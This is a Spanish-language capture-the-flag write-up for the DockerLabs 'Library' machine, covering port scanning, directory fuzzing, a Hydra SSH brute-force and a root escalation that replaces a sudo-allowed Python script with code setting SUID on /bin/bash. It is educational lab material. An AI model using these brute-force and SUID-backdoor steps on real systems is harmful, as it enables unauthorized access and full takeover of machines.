 # Library DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip library.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh library.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 12:06 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.52 seconds
```

Si entramos en la `web` veremos poca cosa, ya que es un `apache2` normal, por lo que haremos un poco de `fuzzing` para ver que encontramos:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un `index.php` que si entramos dentro veremos una web que pone en grande la siguiente palabra:

```
JIFGHDS87GYDFIGD
```

Por lo que podemos deducir que puede ser las credenciales de algun usuario del sistema, por lo que vamos a realizar un ataque de fuerza bruta con una lista de usuarios con `hydra`:

## Escalate user carlos

### Hydra

```shell
hydra -L <WORDLIST> -p JIFGHDS87GYDFIGD ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-17 12:23:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Vemos que nos saca las credenciales de un usuario, por lo que nos conectaremos a el mediante `ssh`:

### SSH

```shell
ssh carlos@<IP>
```

Metemos como contraseña `JIFGHDS87GYDFIGD` y veremos que estamos dentro con dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for carlos on 2f110a30d52f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 2f110a30d52f:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Vemos que podemos ejecutar el script `/opt/script.py` como el usuario `root` por lo que haremos lo siguiente:

```shell
ls -la /opt/
```

Si listamos para ver que permisos tiene, vemos lo siguiente:

```
total 12
drwxr-xr-x 1 carlos root 4096 May  7  2024 .
drwxr-xr-x 1 root   root 4096 Jan 17 17:05 ..
-r-xr--r-- 1 carlos root  272 May  7  2024 script.py
```

Vemos que nosotros somos el propietario del script, por lo que podremos hacer lo siguiente:

```shell
rm /opt/script.py
```

Y creamos un script llamado de la misma forma:

```shell
nano /opt/script.py

#Dentro del nano
import os
import stat

# Ruta del binario al que quieres asignar SUID
binary_path = "/bin/bash"

def set_suid(binary):
    try:
        # Obtener los permisos actuales del archivo
        current_permissions = os.stat(binary).st_mode

        # Añadir el bit SUID a los permisos
        new_permissions = current_permissions | stat.S_ISUID

        # Cambiar los permisos del archivo
        os.chmod(binary, new_permissions)

        print(f"Permisos SUID asignados correctamente a {binary}.")
    except PermissionError:
        print("Error: Se necesitan privilegios de superusuario para ejecutar este script.")
    except FileNotFoundError:
        print(f"Error: El archivo {binary} no se encontró.")
    except Exception as e:
        print(f"Error inesperado: {e}")

# Ejecutar la función
set_suid(binary_path)
```

Lo guardamos y haremos lo siguiente:

```shell
sudo python3 /opt/script.py
```

Info:

```
Permisos SUID asignados correctamente a /bin/bash.
```

Ahora si listamos la `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que solo tendremos que hacer lo siguiente:

```shell
bash -p
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina.
